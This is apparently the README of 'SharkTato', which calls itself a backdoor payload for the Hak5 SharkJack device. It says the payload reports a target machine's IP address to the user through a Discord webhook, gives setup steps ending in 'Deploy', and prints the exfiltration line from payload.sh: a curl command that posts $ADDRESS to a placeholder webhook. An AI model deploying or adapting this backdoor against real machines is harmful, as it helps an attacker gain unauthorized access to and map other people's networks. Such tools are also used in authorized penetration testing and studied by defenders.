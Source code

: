 # SharkTato
> Chris Taylor [Blue Cosmo] | 04/08/22
---

```
  _________.__                  __   ___________       __          
 /   _____/|  |__ _____ _______|  | _\__    ___/____ _/  |_  ____  
 \_____  \ |  |  \\__  \\_  __ \  |/ / |    |  \__  \\   __\/  _ \ 
 /        \|   Y  \/ __ \|  | \/    <  |    |   / __ \|  | (  <_> )
/_______  /|___|  (____  /__|  |__|_ \ |____|  (____  /__|  \____/ 
        \/      \/     \/           \/              \/             
```

## Overview:
SharkTato is a backdoor for the Hak5 [SharkJack](https://shop.hak5.org/products/shark-jack?variant=21284894670961). It uses Discord Webhooks to send us back the IP address of our target machine. Huge shoutout to AndreMtl514 for the support!

## Resources:
- [YouTube Video](https://www.youtube.com/watch?v=O37hJrCELpk)
- [YouTube Channel](https://youtube.com/cosmodiumcs)
- [Website](https://cosmodiumcs.com)

## Requirements:
- Discord
- SharkJack

## Instructions:
1. Change line 24 in `payload.sh` from `DISCORDWEBHOOK` to a discord webhook you generate
```
curl -F "payload_json={\"username\": \"Tremor\", \"content\": \""$ADDRESS"\"}" DISCORDWEBHOOK
```
2. Deploy
